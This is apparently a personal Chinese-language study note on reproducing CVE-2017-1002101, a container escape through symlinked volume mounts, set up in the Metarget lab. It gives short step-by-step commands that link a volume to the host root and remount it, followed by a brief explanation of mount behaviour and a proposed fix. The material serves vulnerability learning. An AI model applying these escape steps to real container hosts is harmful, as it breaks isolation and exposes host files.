






# 逃逸: CVE-2017-1002101

漏洞学习 搭建工具

https://github.com/Metarget/metarget/blob/master/README-zh.md

kubernetes 漏洞学习：

http://blog.nsfocus.net/metarget/

volume subPath

软连接

复现成功



参数填写

第一步：

```yaml
  "VolumeFrom": "/home/yy/coursa/lab/docker/code/Pro_3/volumn/soft_link",
  "VolumeTo": "/tmp/data",
  "Mode": "RW",
```

然后进入docker

```sh
cd /tmp/data
ln -s / /tmp/data/soft
exit
```

创建软连接

然后可以明白的就是在

```sh
/home/yy/coursa/lab/docker/code/Pro_3/volumn/soft_link
这个目录下有一个soft软连接
这是主机的目录文件系统
```

```yaml
  "VolumeFrom": "/home/yy/coursa/lab/docker/code/Pro_3/volumn/soft_link/soft",
  "VolumeTo": "/tmp/roottest",
  "Mode": "RW",
```

这样就直接把soft 指向的根目录 挂在到了roottest目录下

```sh
cd /tmp/roottest 
```

直接切换到了主机的根目录

# 具体mount



mount 命令的作用




会walking所有的符号链接，得到两个真正的目录。

kernel 不知道原始的目录，所以需要一个文件记录一下

/etc/mtab





https://unix.stackexchange.com/questions/395457/how-to-bind-mount-from-a-symlink/395458

# 解决思路

挂载时候 要进行安全验证，如果是软连接，mount系统调用，不能指软连接的目录


# 阅读



```
https://blog.csdn.net/shengxia1999/article/details/52060354
```